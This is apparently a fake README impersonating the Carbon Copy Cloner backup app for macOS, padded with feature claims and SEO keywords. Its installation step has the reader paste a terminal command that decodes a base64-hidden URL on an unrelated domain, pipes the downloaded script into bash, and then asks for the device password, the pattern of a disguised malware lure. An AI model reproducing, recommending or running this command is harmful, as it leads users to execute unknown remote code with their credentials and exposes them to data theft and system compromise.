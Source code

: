 # 🗂️ Carbon Copy Cloner for Mac — Reliable Backups, Effortless Recovery

📌 About Carbon Copy Cloner  
Carbon Copy Cloner (CCC) is a powerful backup utility designed specifically for macOS users who need absolute confidence in their data protection strategy. It enables you to create bootable backups of your entire system, clone external drives, or selectively back up important files to a secondary disk or network volume.  
Whether you're a professional handling critical media files, a system administrator managing multiple Macs, or a casual user who values peace of mind, CCC offers unmatched reliability, automation, and fine-tuned scheduling.  
The app works seamlessly with macOS permissions and snapshots, ensuring that your backups are consistent, verifiable, and restorable at any time. Privacy is a top priority: no cloud sync, no third-party access—your data remains under your control, stored where you choose.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://bombich.com/img/site/hero-narrow.jpg)  
- ![](https://bombich.com/img/icons/filter.jpg)  

## 🎯 Key Features  
⚡️ Bootable Backups: Easily create full macOS system backups you can boot from.  
🔒 Local-Only Data: No cloud, no sync—your data never leaves your devices.  
⚙️ Smart Scheduling: Run backups automatically at specific intervals or triggers.  
🚀 Fast Performance: Incremental backup engine reduces time and system load.  
🎨 macOS Integration: Uses native permissions, snapshots, and notifications.  
📊 Task Monitoring: Real-time progress and error reporting for each backup job.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`carbon copy cloner mac` · `mac bootable backup app` · `mac clone external drive` · `macOS backup scheduler` · `mac disaster recovery` · `local backup utility mac` · `clone mac hard drive` · `mac snapshot backup` · `mac scheduled backup tool` · `mac drive duplicator` · `carbon copy tool mac` · `mac backup without cloud` · `mac disk cloner` · `mac rsync alternative` · `carbon copy mac software`
